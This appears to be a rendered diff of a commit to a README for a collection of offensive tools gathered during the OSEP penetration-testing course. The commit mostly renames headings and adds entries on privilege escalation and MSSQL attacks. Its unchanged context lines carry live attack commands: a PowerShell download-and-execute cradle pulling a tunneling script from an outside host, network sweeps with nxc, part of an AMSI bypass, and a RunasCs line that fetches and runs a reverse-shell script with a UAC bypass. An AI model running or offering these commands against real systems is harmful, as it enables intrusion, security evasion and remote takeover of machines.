

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -1,9 +1,13 @@
 Just a bunch of tools built/gathered along the OSEP course.
 
 1. [Tunneling](#Tunneling)
-2. [MapTheNetwork](#MapTheNetwork)
+2. [Map The Network](#Map-The-Network)
 3. [AMSI-Bypass](#AMSI-Bypass)
-4. [UsefulBasicCommands](#UsefulBasicCommands)
+4. [Useful Basic Commands](#Useful-Basic-Commands)
+5. [Escalate to SYSTEM via Schduele Task](#Escalate-to-SYSTEM-via-Schduele-Task)
+6. [TCP Port Redirection via powercat.ps1](#TCP-Port-Redirection-via-powercat.ps1)
+7. [MSSQL Useful Queries](#MSSQL-Useful-Queries)
+8. [MSSQLPwner](#MSSQLPwner)
 
 
 # Tunneling
@@ -17,7 +21,7 @@ Make sure you are running as x64 bit process before running:
 Invoke it: `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`
 
 
-# MapTheNetwork
+# Map The Network
 - `nxc smb 172.16.125.0/24 --log hosts.txt` (for windows hosts)
 
 - `nxc ssh 172.16.125.0/24 --log hosts.txt` (for linux hosts)
@@ -44,7 +48,7 @@ $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c
 
 
 
-# UsefulBasicCommands:
+# Useful Basic Commands
 
 ### <ins>Run command as another user</ins>:
 - `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`
```
Also changed, not shown: other parts of README.md (+1 -1 lines).
